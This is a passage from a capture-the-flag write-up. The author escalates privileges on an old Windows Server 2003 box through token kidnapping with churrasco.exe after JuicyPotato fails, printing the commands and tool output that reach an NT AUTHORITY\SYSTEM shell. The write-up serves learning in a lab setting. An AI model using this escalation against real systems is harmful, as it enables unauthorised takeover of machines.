 ```txt
C:\WINDOWS\Temp>JuicyPotato.exe
JuicyPotato.exe
The image file C:\WINDOWS\Temp\JuicyPotato.exe is valid, but is for a machine type other than the current machine.
```

We have a new problem...The executable seems to be incompatible with our target. Remember the OS is an old Windows Server 2003. We have to find a way to exploit this token. Back to online searching !

After searching for specific information related to token and microsoft 2003, an [article](https://msrc-blog.microsoft.com/2009/04/14/ms09-012-fixing-token-kidnapping/) from Microsoft caught my eyes, the article is talking about an attack called *Token Kidnapping*. We can specify our research even more, and...boom ! [Windows Privilege Escalation via Token Kidnapping](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e)

The tool used is `churrasco.exe`, and can be found [here](https://github.com/Re4son/Churrasco/blob/master/churrasco.exe).

After uploading it on the target using the SMB method. Let's see if it works...and yes it actually did work !

```txt
churrasco.exe -d whoami
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```

We can run the same command but replacing the `whoami` command with `cmd` to gain a shell as `nt autorithy\system` !

We have rooted the box !

## Conclusion

As I'm not used to work with Windows machines, it was a really tough challenge even though the box is considered easy. The fact that the machine was really old caught me off guard.

Hacking this box made me learn alternative ways to transfer file on Windows and showed me that searching for solutions on Internet is a big part of the job and needed to be further improved.